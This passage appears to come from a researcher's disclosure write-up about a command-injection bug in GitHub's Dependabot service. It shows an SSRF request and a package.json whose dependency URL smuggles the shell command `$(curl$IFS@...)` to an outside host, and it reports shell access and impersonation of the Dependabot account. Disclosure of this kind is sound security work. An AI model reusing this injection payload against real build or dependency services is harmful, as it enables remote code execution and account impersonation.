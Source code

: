 ```
GET /username/repo.git/info/refs?service=git-upload-pack HTTP/1.0
Host: localhost:3000
Connection: close
User-Agent: dependabot-core/0.156.4 excon/0.83.0 ruby/2.7.1 (x86_64-linux-gnu) (+https://github.com/dependabot/dependabot-core)
Accept-Encoding: gzip
```

I couldn't steal the token from GitHub's Dependabot server by SSRF, but after some investigation, I found another bug.

# Get the shell of a Dependabot server

When I tried some payload, I came across with a pattern that triggers a shell command in Dependabot server.
With the package name `https://github.com/tyage/;$(curl$IFS@mocos.kitchen:3001);?/...`, a shell command `curl$IFS@mocos.kitchen:3001` was executed and we could see the request!

https://github.com/tyage/dependabot-test3/blob/a81ac0bb60ac5aad66fa3191b5276f633a6d421d/package.json
```json
{
  "name": "javascript",
  "version": "1.0.0",
  "main": "index.js",
  "license": "MIT",
  "private": true,
  "dependencies": {
    "tyage-sample-package": "https://github.com/tyage/;$(curl$IFS@mocos.kitchen:3001);?/github.com/tyage/sample-package.git#semver:4.0.0"
  }
}
```

I got the shell of the Dependabot server suddenly, but unfortunately, what we can do in the server is limited.
Here is what I could do:

- Access to the internal HTTP proxy which enables us to access to the target GitHub repository
- Access to the internal API server which enalbes us to create a pull request as a Dependabot
- Bitcoin mining :)

Therefore, we couldn't obtain read/write access of other user's repository.
(If we can pwn the internal HTTP proxy or API server, it will allow us to escalate the permission, I guess.)

Even though I couldn't get the access to other user's repository, I could impersonate as a verified Dependabot account and create a commit and pull request by calling internal API.

<https://github.com/tyage/dependabot-test3/pull/31>
